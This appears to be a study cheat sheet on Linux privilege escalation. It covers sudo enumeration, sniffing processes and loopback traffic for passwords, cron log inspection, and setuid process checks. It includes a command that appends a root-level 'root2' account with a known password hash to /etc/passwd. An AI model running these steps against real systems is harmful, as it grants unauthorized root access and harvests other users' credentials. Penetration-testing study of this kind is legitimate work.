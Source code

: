 ```bash
sudo -l
```

```bash
watch -n 1 "ps -aux | grep pass"

sudo tcpdump -i lo -A | grep "pass"
sudo tcpdump -nvvvXi tun0 tcp port 8080
sudo tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap
```

## Abusing Cron Jobs

We could inspect the cron log file (`/var/log/cron.log`) for running cron jobs

```bash
grep "CRON" /var/log/syslog
```

## Abusing Password Authentication

Linux passwords are generally stored in `/etc/shadow`, which is not readable by normal users.

Historically, password hashes, along with other account information, were stored in the world-readable file `/etc/passwd`. For backwards compatibility, if a **password hash** is present in the **2nd column of an `/etc/passwd`** user record, it is considered valid for authentication and it takes precedence over the respective entry in `/etc/shadow`, if available

=> If we can write into `/etc/passwd`, we can effectively set an arbitrary password for any account.

By default, if no other option is specified, `openssl` will generate a hash using the **crypt** algorithm, a supported hashing mechanism for Linux authentication, output: `Fdzt.eqJQ4s0g`

root2 user and the w00t password hash in our `/etc/passwd` record were followed by the user id (UID) zero and the group id (GID) zero. These zero values specify that the account we created is a **superuser** Linux account

```bash
openssl passwd w00t

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Abusing Setuid Binaries and Capabilities

Find the PID (process ID) of the passwd program

```bash
ps u -C passwd
```

Provides a summary of the process (PID is 1932) attributes (Real UID, effective UID)

```bash
grep Uid /proc/1932/status
```
